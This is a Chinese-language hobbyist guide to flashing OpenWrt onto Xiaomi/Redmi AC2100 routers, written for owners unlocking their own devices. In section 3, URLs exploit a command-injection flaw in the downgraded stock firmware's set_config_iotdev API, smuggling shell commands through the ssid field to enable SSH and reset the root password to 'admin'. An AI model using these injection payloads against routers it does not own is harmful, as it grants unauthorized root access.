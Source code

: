 # 小米/红米`AC2100`刷`Openwrt`方法

`Openwrt`官方已经从`21.02.0`版正式支持小米/红米`AC2100`。

[官网下载地址](https://downloads.openwrt.org/releases/)

> 更新说明：
> 
> 因为采用了`DAS`构架，从`19`升级要强制，而且以前的设置备份无法用。
> 
> 注意从`openwrt`写盘，盘名不一样了。

从openwrt写盘命令：

```shell
mtd write /tmp/xxx-kernel1.bin kernel
mtd -r write /tmp/xxx-rootfs0.bin ubi
```

从小米厂家rom写盘命令：

```shell
mtd write /tmp/xxx-kernel1.bin kernel1
mtd -r write /tmp/xxx-rootfs0.bin rootfs0
```

注意上面根据自己的文件名做相应更改。

----------------------------------------------------------------------

这也是之前刷机的记录，参考了恩山论坛`a76yyyy`等归纳的方法而实践。

**1. 基本思路：** 利用官方固件的漏洞，通过`Web`注入漏洞开启`SSH`实现刷机。

**2. 材料准备：** 有两方面的内容准备，带漏洞的`rom`和`Openwrt rom`。

**第一方面：** 

带漏洞的官方固件，只有一个版本的固件有漏洞，版本号为`AC2100 2.0.7*`版本。

之后的版本漏洞已经修复，要刷机需降级到带漏洞的版本（有人说是小米有意无意放出的那么一个版本，反正国际上一大堆玩小米路由的玩家）。

降级只需用官方更新方法手动刷入即可。

带漏洞的版本在官方网站上下载：

- [红米RM2100](http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/rm2100/miwifi_rm2100_firmware_d6234_2.0.7.bin)

- [小米R2100](http://cdn.cnbj1.fds.api.mi-img.com/xiaoqiang/rom/r2100/miwifi_r2100_firmware_4b519_2.0.722.bin)

**第二方面：** 

需刷入的`Openwrt rom`。

有各种各样的版本，用了一个半官方的由`Philipp Schuster`等适配编译的版本，

目前还在适配开发阶段，据他说估计要到下一个版本号才会签升为`Openwrt`官方版。

> 已经签升为官方版，从21.02.0版起支持，如下早期版本无更新了。

[下载地址](https://drive.google.com/drive/u/0/folders/1WTWvOp-6B54hsCDpuo_hf2JKAaUwmZFG)

开发讨论的论坛地址：

[New Xiaomi Router AC2100​forum.openwrt.org/t/new-xiaomi-router-ac2100/48101](https://forum.openwrt.org/t/new-xiaomi-router-ac2100/48101)

有一大帮国际玩家云集，Schuster版本地址也在那里。

只需三个文件如：

- `openwrt-ramips-mt7621-xiaomi_mi-router-ac2100-squashfs-kernel1.bin`

- `openwrt-ramips-mt7621-xiaomi_mi-router-ac2100-squashfs-rootfs0.bin`

- `openwrt-ramips-mt7621-xiaomi_mi-router-ac2100-squashfs-sysupgrade.bin`

先刷入前面两个文件，之后用`sysupgrade.bin`更新一下即可。

**3. 漏洞注入：** 

降级到漏洞版本后，通过下面`web`命令开启`SSH`。

3.1 使用管理密码登录管理页面，登录后地址栏链接应为：

```shell
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/web/home#router
```

这里的关键是 **`<STOK>`** 号，每台机器不同，甚至每次登录都不同，拷贝下来备用。

3.2 在浏览器地址栏中输入以下链接代码，注意替换掉`<STOK>`部分：

```shell
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```

返回`{"code":0}`即代表成功，若返回401错误，

原因可能是版本不正确或者`<STOK>`值错误或者链接输入不完整等。

`root`密码请自行根据`SN`计算；

不想计算的或不知道怎么计算的，可以更改管理员`root`密码的方式得到（此法更方便）。

3.3 更改管理员`root`密码的方法：

通过如下命令更改`roo`t密码为`admin`，在浏览器地址栏中输入以下链接代码，注意替换掉 **`<STOK>`** 部分

(有时`stok`值会发生改变，建议重新返回登录页面复制最新的`stok`值)：

```shell
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

重启即可开启`SSH`，建议一键注入后需等待一些时间，

保证路由器后台能正确处理注入信息后再重启。

**4. 登录`SSH`进行刷机：**

4.1 重启后，通过`winscp`登录`192.168.31.1`用户为`root`密码为刚才改过的`admin`。

先把`openwrt`的两个`rom`文件（`xxx-kernel1.bin`和`xxx-rootfs0.bin`）上传到路由器`tmp`目录。

4.2 再用`putty`登录`192.168.31.1`进行刷机操作，

输入如下命令进行刷机：

```shell
nvram set uart_en=1&&nvram set bootdelay=5&&nvram set flag_try_sys1_failed=1&&nvram commit
mtd write /tmp/xxx-kernel1.bin kernel1
mtd -r write /tmp/xxx-rootfs0.bin rootfs0
```

> **注意：**
> 
> 上面`rom`文件的文件名，把`xxx`替换成自己用的`rom`文件名。

刷完后将重启，刷机大功告成，之后便是`openwrt`路由的设置了。

